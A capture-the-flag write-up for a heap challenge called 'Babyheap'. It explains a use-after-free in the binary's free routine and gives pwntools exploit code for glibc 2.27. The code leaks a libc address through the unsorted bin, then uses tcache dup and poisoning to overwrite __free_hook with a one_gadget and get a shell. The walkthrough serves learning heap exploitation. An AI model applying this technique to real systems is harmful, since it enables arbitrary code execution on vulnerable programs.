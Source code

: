 # Babyheap
We are given a classic heap exploitation binary, where we have the ability to malloc, free and show chunks in the memory.
The binary is has a ```while true``` that runs these options:
```
1. Allocate some memory
2. Show data at memory location
3. Free some memory
4. Exit
```

1. Allocating data lets us choose the size, contents and index of the chunk. There can be at most 8 chunks.
chunk addresses are stored in an array named ```heap_buf``` in the ```bss``` segment.
2. Printing data, lets us choose an index from the ```heap_buf``` array and prints its' contents.
3. Free, lets us free a chunk from the ```heap_buf``` array.
4. Exits.

## The vulnerabilities:
1. Let's take a look at the ```freeing``` function:
```c
void freeing(void)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What index would you like to free?");
  iVar1 = __isoc99_scanf(&DAT_00102031,&local_14);
  if (iVar1 == 0) {
    puts("Please enter an integer.");
    __isoc99_scanf(&DAT_0010204d,&local_15);
  }
  else {
    if (local_14 < 8) {
      free(*(void **)(heap_buf + (long)local_14 * 8));
    }
    else {
      puts("Can\'t reach that index!");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Well this function indeed frees a chunk but doesn't set the ```heap_buf``` at that index to ```0```, giving us use after free.

2. The libc version of the challenge is 2.27 so we have some freedom doing common heap exploits since this isn't libc >= 2.29.
In particular, we will use unsorted bin libc leak and tcahce dup and tcache poisoning for our advantage.
## Our convenience functions:
```python
def alloc(index, size, content):
    p.sendlineafter("Exit", "1")
    p.sendlineafter("?", str(size))
    p.sendlineafter("?", str(index))
    p.sendlineafter("?",  content)

def free(index):
    p.sendlineafter("Exit", "3")
    p.sendlineafter("?", str(index))

def show(index):
    p.sendlineafter("Exit", "2")
    p.sendlineafter("?", str(index))
```

## Leaking libc
First of all, I want to leak libc base address and it is possible to do that by using unsorted bin vulnerability.
Unsorted bin, is a circular list, with both ends pointing into ```main_arena``` which are fixed variables in libc.
So, if we can leak one of the ends of this circular list we can determine libc base.

```python
alloc(0, 0x2000, 8*b"A")
alloc(1, 0x2000, 8*b"B")
free(0)
show(0)
```
We alloc two large chunks, when we free the first one it'll end up of the unsorted bin.
If I had allocated only one large chunk, upon free, it'll consolidate with the ```top``` chunk, therefore we must allocate two chunks.
Now because we have a use after free, when we so the contents of the first chunk we actually leak the ```fd``` pointer of the chunk in the unsorted bin.
This gives us a known address with a fixed offset of ```0x3ebca0``` to libc base.

## Quick overview of tcache dup & poisoning
Freed small chunks are stored in the ```tcache```, and upon ```maloc```ing chunks of some size, ```malloc``` will first lookup in the ```tcache```
Chunks in the tcache are structs that look like: 
```c
strcut chunk {
	INTERNAL_SIZE_T mchunk_prev_size;
	INTERNAL_SIZE_T mchunk_size;
	struct malloc_chunk* fd; //Pointer to the next chunk in the tcache.
	struct malloc_chunk* bk; //Pointer to the previous chunk in the tcahce.
```
Where the pointer to the chunk actually point to the ```fd``` member.
Now, imagine:
```c
malloc(0x10) // chunk #1
free(chunk1) 
free(chunk1)
```
The tcache will have the two same chunks, were the first chunk ```fd``` member points to itself.
Now,
```c
malloc(0x10) // we get the same chunk1, the first in the tcache
write(chunk1, address) // write some address to the newly malloc'd chunk.
malloc(0x10) // we get the same chunk2, the second in the tcache.
malloc(0x10) // we get a chunk that points to address!
```
The point is, that writing to chunk, actually override the ```fd``` member, and upon next allocation, ```malloc``` will be tricked and allocate the chunk pointed by the ```fd``` pointer of ```chunk1```

So,
```python
alloc(2, 0x10, 8*b"A")
alloc(3, 0x10, 8*b"B")
free(2)
free(2)

alloc(5, 0x10, p64(libc.sym["__free_hook"]))
alloc(6, 0x10, 8*b"C")
alloc(7, 0x10, p64(libc.address + 0x4f3c2))
```
allocating chunk 5 and writing ```__free_hook``` to it, will poison the tcache.
allocating chunk 6 will give us the 2nd ```free(2)``` entry from the tcache
Chunk 7 will point to ```__free_hook```, and we write the address of a ```one_gadget``` there.

Now simply ```free(0)``` and we get shell.

